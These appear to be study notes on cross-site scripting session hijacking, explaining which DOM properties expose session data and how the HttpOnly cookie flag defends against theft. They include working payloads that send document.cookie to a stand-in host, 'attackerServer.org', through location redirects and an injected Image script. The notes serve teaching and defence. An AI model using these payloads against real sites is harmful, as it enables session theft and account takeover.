


Session Abuse
The victim's browser renders our JavaScript within the user's session of the vulnerable server.
If the user has already authenticated, then the session information might be accessible to our executing scripts.
Session Hijacking
The most serious session abuse using XSS could afford us the ability to fully interact as the user
To achieve this, we will need to hijack their active session, typically by stealing and reusing their session tokens, such as cookies.
With our scripts being delivered from the origin server that presented the session token to the user in the first place, SOP will not be a concern. Likewise, our scripts will be able to fully interact with and manipulate the DOM in question.
•
DOM Properties that could contain session data we want ◇ document.cookie → Cookies are most common target
◇ document.URL → Query parameters
◇ document.forms → Hidden form fields and CSRF tokens
•
How send the theft data to us ◇
Use location to redirect the victim's browser to our web server and send data to us: the major drawback of this method is that the user's browser is actually redirected. This greatly increases the likelihood of detection of our attack
◇ location = 'http://attackerServer.org/c.php?='+document.cookie
◇ location.replace('attackerServer.org/c.php?='+document.cookie)
◇
Create a new Image that points to our cookie catching script: ▪ script
<script>
img = new Image();
img.src='//attackerServer.org/cookiecatcher.php?='+document.cookie;
</script>
If the
HttpOnly flag is set (to “true”) in Set-Cookie header in the response of the server, means that only HTTP (and not JavaScript) is allowed to interface with the cookies. This mean that for example we cannot use the POCs seen in Reflected XSS
◇ HttpOnly flag set (true) → safe for the user
 ◇ HttpOnly flag not set (==false) → not safe for the user
